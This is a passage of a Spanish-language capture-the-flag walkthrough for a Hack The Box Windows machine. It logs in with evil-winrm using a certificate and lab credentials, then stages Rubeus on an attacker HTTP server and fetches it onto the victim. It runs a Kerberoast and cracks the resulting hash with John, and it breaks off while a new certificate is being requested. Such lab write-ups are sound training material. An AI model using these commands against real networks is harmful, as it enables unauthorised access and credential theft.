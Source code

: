 1. Colamos el contenido en la web y podemos descargar el DER encode certificate.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM SSL {-}


```bash
mv /home/s4vitar/Downloads/certnew.cer .
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

ya estamos a dentro de la maquina pero no podemos ver la flag. Como previsto aqui vamos a tener que convertirnos al usuar **MRKLY**.


### Kerberoasting attack con Rubeus {-}

1. Descargamos el rubeus.exe

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    python -m http.server 80
    ```

1. Lo descargamos desde la maquina victima

    ```powershell
    cd C:\Windows\Temp
    mkdir BH
    cd BH
    iwr -uri http://10.10.16.3/Rubeus.exe -Outfile Rubeus.exe
    ```

1. Lanzamos el binario

    ```powershell
    C:\Windows\Temp\BH\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
    ```

Ya podemos ver el hash NTLM de version 2 del usuario **MRKLY**

### Crackeando el hash con John {-}

Copiamos el hash en un fichero y le lanzamos John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt mrkly_hash
```

Aqui ya tenemos la contraseña del usuario. Aqui no vamos a poder connectarnos a la maquina victima con este usuario porque
tenemos que crear un nuevo certificado.

Entramos con firefox a la routa `/certsrv` con las credenciales del usuario MRKLY.

1. En la web le damos a `Request Certificate -> advanced certificate request`
1. Creamos un certificado (Private Key) en la maquina de atacante
